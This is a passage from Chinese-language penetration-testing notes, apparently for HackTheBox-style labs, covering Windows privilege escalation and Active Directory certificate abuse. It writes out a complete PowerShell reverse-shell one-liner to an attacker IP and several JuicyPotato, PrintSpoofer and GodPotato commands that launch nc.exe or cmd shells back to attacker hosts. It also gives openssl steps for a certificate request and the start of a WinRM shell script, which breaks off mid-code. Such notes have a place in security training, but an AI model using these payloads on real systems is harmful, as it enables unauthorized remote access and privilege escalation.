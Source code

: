 **Windows :**
先写一个 reverse.bat
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.50',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (IEX $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
如果 JuicyPotatoNG  不能提权的话就尝试 JuicyPotato
https://github.com/ohpe/juicy-potato
https://github.com/ivanitlearning/Juicy-Potato-x86/releases/tag/1.2
```
.\jp.exe -l 1337 -p 'C:\programdata\reverse.bat' -t *

JuicyPotato.exe -l 9999 -p c:\interpub\wwwroot\upload\nc.exe -a "IP PORT -e cmd.exe" -t t -c {B91D5831-B1BD-4608-8198-D72E155020F7}
JuicyPotato.exe -l 1340 -p C:\users\User\rev.bat -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
JuicyPotato.exe -l 1337 -p c:\Windows\System32\cmd.exe -t * -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} -a "/c c:\users\User\reverse_shell.exe"

.\JuicyPotato_x86.exe -l 5555 -p C:\programdata\rev.exe -t * -c {6d18ad12-bde3-4393-b311-099c346e6df9}
```

**Windows 10 , Server 2016/2019可以使用 PrintSpoofer**
https://github.com/itm4n/PrintSpoofer
```powershell
PS C:\programdata> .\p.exe -c 'C:\programdata\n.exe -e cmd 192.168.45.171 1337'
```

**Windows10 Pro , Windows Server 2012 - Windows Server 2022 , Windows8 - Windows 11 可以使用 GodPotato** 
https://github.com/BeichenDream/GodPotato
```powershell
.\god.exe -cmd "cmd /c whoami"
```
GodPotato-NET2.exe  GodPotato-NET35.exe  GodPotato-NET4.exe 都可以尝试

### 滥用 AD 证书服务
参考 [0x31 Sizzle  (CA证书服务滥用,smb Responder)](../0x0B%20HackTheBox%20WP/靶机推荐第五组%2081-120暨内⽹和域渗透学习路径/0x31%20Sizzle%20%20(CA证书服务滥用,smb%20Responder).md)
- 生成一个具有 AES-256加密的2048位 RSA 私钥
```bash
openssl genrsa -aes256 -out amanda.key 2048
```

- 生成证书签名请求
```bash
	openssl req -new -key amanda.key -out amanda.csr
```

**请求证书**
![](photos/Pasted%20image%2020240309205658.png)
![](photos/Pasted%20image%2020240309205714.png)
![](photos/Pasted%20image%2020240309205737.png)
https://raw.githubusercontent.com/Alamot/code-snippets/master/winrm/winrm_shell.rb
```ruby
require 'winrm'

# Author: Alamot

conn = WinRM::Connection.new(
  endpoint: 'https://10.129.96.90:5986/wsman',
  transport: :ssl,
```